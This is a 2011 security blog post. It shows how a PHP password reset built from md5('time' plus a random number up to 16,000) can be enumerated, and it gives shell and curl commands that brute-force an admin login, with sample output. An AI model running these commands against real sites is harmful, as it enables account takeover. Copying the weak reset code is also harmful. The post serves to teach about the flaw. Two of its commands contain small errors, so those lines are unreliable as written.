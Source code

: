 ```yaml
---
id: 1059
title: 'Hacking crappy password resets (part 2)'
date: '2011-03-15T08:09:41-05:00'
author: ron
layout: post
guid: 'http://www.skullsecurity.org/blog/?p=1059'
permalink: /2011/hacking-crappy-password-resets-part-2
categories:
    - hacking
    - passwords
    - tools
---
```


Hey,

In my <a href='/blog/2011/hacking-crappy-password-resets-part-1'>last post</a>, I showed how we could guess the output of a password-reset function with a million states. While doing research for that, I stumbled across some software that had a mere 16,000 states. I will show how to fully compromise this software package remotely using the password reset. 
<!--more-->
<h2>The code</h2>
First, let's take a look at the code:
<pre>
<font color="#ffa500">&lt;?php</font><br>
&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font>&nbsp;<font color="#ffa500">(</font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">cfgrow</font><font color="#ffa500">[</font>'<font color="#ffa0a0">email</font>'<font color="#ffa500">])</font><font color="#ffff60"><b>==</b></font><font color="#40ffff">strtolower</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">_POST</font><font color="#ffa500">[</font>'<font color="#ffa0a0">reminderemail</font>'<font color="#ffa500">]))</font><br>
&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#80a0ff">// generate a random new pass</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;&quot;<font color="#ffa0a0">update config set password=MD5('</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font><font color="#ffa0a0">') where [...]</font>&quot;<br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>if</b></font><font color="#ffa500">(</font><font color="#40ffff">mysql_query</font><font color="#ffa500">(</font><font color="#ffff60"><b>$</b></font><font color="#40ffff">query</font><font color="#ffa500">))</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffa500">{</font><br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; <font color="#80a0ff">// ...</font><br>
<font color="#ffa500">?&gt;</font><br>
</pre>

<h2>The vulnerability</h2>
The vulnerability lies in the password generation:
<pre>&nbsp;&nbsp;&nbsp;&nbsp;<font color="#ffff60"><b>$</b></font><font color="#40ffff">user_pass</font>&nbsp;<font color="#ffff60"><b>=</b></font>&nbsp;<font color="#40ffff">substr</font><font color="#ffa500">(</font>&nbsp;<font color="#40ffff">MD5</font><font color="#ffa500">(</font>'<font color="#ffa0a0">time</font>'&nbsp;<font color="#ffff60"><b>.</b></font>&nbsp;<font color="#40ffff">rand</font><font color="#ffa500">(</font><font color="#ffa0a0">1</font>, <font color="#ffa0a0">16000</font><font color="#ffa500">))</font>, <font color="#ffa0a0">0</font>, <font color="#ffa0a0">6</font><font color="#ffa500">)</font>;<br></pre>

The new password generated is the md5() of the literal string 'time' (*not* the current time, the *word* "time") concatenated with one of 16,000 random numbers, then truncated to 6 bytes. We can very easily generate the complete password list on the commandline:
<pre>$ seq <font color="#ffa0a0">1</font>&nbsp;<font color="#ffa0a0">16000</font>&nbsp;| xargs <font color="#ffa500">-I</font>&nbsp;XXX sh <font color="#ffa500">-c</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">echo timeXXX | md5sum | cut -b1-6</font><font color="#ffff60"><b>&quot;</b></font></pre>

or, another way:
<pre>$ <font color="#ffff60"><b>for </b></font>i <font color="#ffff60"><b>in</b></font>&nbsp;<font color="#ffa500">`seq </font><font color="#ffa0a0">1</font><font color="#ffa500">&nbsp;</font><font color="#ffa0a0">16000</font><font color="#ffa500">`</font>; <font color="#ffff60"><b>do</b></font>&nbsp;<font color="#ffff60"><b>echo</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">time</font><font color="#ff80ff">$i</font><font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">&nbsp;</font><font color="#ffff60"><b>|</b></font>&nbsp;md5sum <font color="#ffff60"><b>|</b></font>&nbsp;cut -b1<font color="#ffa0a0">-6</font><br></pre>

(By the way, for more information on using xargs, check out a really awesome blog posting called <a href='http://teddziuba.com/2010/10/taco-bell-programming.html'>Taco Bell Programming</a> - it's like real programming, but you can't legally call it "beef")

In either case, you'll wind up with 16,000 different passwords in a file. If you want to speed up the eventual bruteforce, you can eliminate collisions:
<pre>$ seq 1 16000 | xargs -I XXX sh -c "echo XXX | md5sum | cut -b1-6" | sort | uniq</pre>

If you do that, you'll wind up with 15,993 different passwords, ranging from '000b64' to 'fffcc0'. Now all that's left is to try these 15,993 passwords against the site! 

<h2>The attack</h2>
You can do this attack any number of ways. You can script up some Perl/Ruby/PHP, you can use a scanner like Burp Suite, or, if you're feeling really adventurous, you can write a quick config file for <a href='http://nmap.org/svn/scripts/http-enum.nse'>http-enum.nse</a>. If anybody takes the time to replicate this with http-enum.nse, you'll win an Internet from me. I promise. 

But why bother with all these complicated pieces of software when we have bash handy? All we need to do is try all 15,993 passwords using wget/curl/etc and look for the one page that's different. Done! 

So, to download a single page, we'd use:
<pre>$ curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

This will create a file called XXX.out on the filesystem, which is the output from a login attempt with the password XXX. Now we use xargs to do that for every password:
<pre>$ cat passwords.txt | xargs <font color="#ffa500">-P32</font>&nbsp;<font color="#ffa500">-I</font>&nbsp;XXX curl <font color="#ffa500">-s</font>&nbsp;<font color="#ffa500">-o</font>&nbsp;XXX.out <font color="#ffff60"><b>\</b></font><br>
&nbsp;&nbsp;<font color="#ffa500">-d</font>&nbsp;<font color="#ffff60"><b>&quot;</b></font><font color="#ffa0a0">user=admin&amp;password=XXX</font><font color="#ffff60"><b>&quot;</b></font>&nbsp;<font color="#ffff60"><b>&lt;</b></font>site<font color="#ffff60"><b>&gt;</b></font>/admin/?<font color="#40ffff">x</font>=login<br>
</pre>

Which will, in 32 parallel processes, attempt to log in with each password and write the result to a file named &lt;password&gt;.out. Now all we have to do figure out which one's different! After waiting for it to finish (or not.. it takes about 5-10 minutes), I check the folder:

<pre>$ md5sum *.out | head 
96ffbb1ba380de9fc9e7a3fe316ff631  000176.out
96ffbb1ba380de9fc9e7a3fe316ff631  0014c2.out
96ffbb1ba380de9fc9e7a3fe316ff631  001e7e.out
96ffbb1ba380de9fc9e7a3fe316ff631  002035.out
96ffbb1ba380de9fc9e7a3fe316ff631  00217c.out
96ffbb1ba380de9fc9e7a3fe316ff631  002c47.out
96ffbb1ba380de9fc9e7a3fe316ff631  003b9e.out
96ffbb1ba380de9fc9e7a3fe316ff631  004bff.out
96ffbb1ba380de9fc9e7a3fe316ff631  0057b8.out
96ffbb1ba380de9fc9e7a3fe316ff631  008dea.out</pre>

Sure enough, it's tried all the passwords and they all seemed to download the same page! Now we use grep -v to find the one and only download that's different:
<pre>$ md5sum *.out | grep -v 96ffbb1ba380de9fc9e7a3fe316ff631
d41d8cd98f00b204e9800998ecf8427e  b19261.out</pre>

And bam! We now know the password is "b19261". 

<h2>Conclusion</h2>
So there you have it - abusing a password reset to log into an account you shouldn't. And remember, even though we didn't test this with 1,000,000 possible passwords like last week's blog, it would only take about 60 times as long - so instead of a few minutes, it'd be a few hours. And as I said last week, that million-password reset form was actually pretty common. 

And in case you think this is hocus pocus or whatever, I wrote the code shown here live, on stage, at Winnipeg Code Camp. It's towards the end of <a href='http://vimeo.com/20718776'>my talk</a>.
